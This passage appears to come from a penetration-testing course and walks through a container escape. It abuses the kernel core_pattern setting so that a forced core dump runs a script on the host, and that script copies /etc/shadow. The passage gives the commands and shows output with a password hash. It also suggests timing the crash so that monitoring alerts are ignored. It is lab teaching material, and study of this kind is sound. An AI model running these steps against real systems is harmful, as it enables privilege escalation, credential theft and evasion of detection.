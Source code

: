 ```
victim_release_agent:~# echo "#!/bin/sh" > /cmd

victim_release_agent:~# echo "cat /etc/shadow > $host_path/output" >> /cmd

victim_release_agent:~# chmod a+x /cmd
```

> Listing 44 - Creating Executable Script

Next, we need to change the value of **core_pattern** to execute our script. We'll start by echoing with the pipe, as documented by the **core_pattern** syntax. After the pipe, we'll specify the script we just created, but on the host's file system. We'll redirect all of this to **/proc/sys/kernel/core_pattern**.

```
victim_core_pattern:~# echo "|$host_path/cmd" > /proc/sys/kernel/core_pattern
```

> Listing 45 - Configuring core_pattern

Next, we need to cause a core dump. We could create an application that crashes. We could also start a process and kill it with any of the signals that cause a _core dump_. In our example, we'll use _SIGQUIT_.

It's important to note that some environments might carefully monitor crashes. If we suspected this was the case, we could try to determine if there is a maintenance schedule and plan our crash around it. That way, an alert has a higher chance of being ignored.

As for the process we want to crash, we'll run **sleep** since we can control how long the process runs, which should give us time to send the signal. We'll run **sleep 60** to sleep for 60 seconds and send it to the background by adding an _ampersand_ (**&**) at the end.

We can use **kill** with the **-s** flag to send a **SIGQUIT** signal to the process. Next, we need the _process ID_(PID) of the sleep command, which we can obtain from the **$!** variable. The **$!** variable holds the PID of the previously executed process.

```
victim_core_pattern:~# sleep 60 &

victim_core_pattern:~# kill -s SIGQUIT $!

victim_core_pattern:~#
[5]+  Quit                    (core dumped) sleep 60
```

> Listing 46 - Starting a Proccess and Sending the SIGQUIT Signal

After sending the signal, if we press I in the terminal again, we should find that a core dump was generated by sending the signal. Let's check the contents of the **/output** file to verify script execution.

```
victim_core_pattern:~# cat /output
root:*:19279:0:99999:7:::
...
lxd:!:19282::::::
student:$6$tWaa3gaveH$r9dM8IQAKccd6hm2gN9x/zMS1yMCoM5j4N1cauTE0izQaGznciab41MnuViuhCNaASU6M4zGnCvuec.OTbZ8E0:19282:0:99999:7:::
dnsmasq:*:19282:0:99999:7:::
```
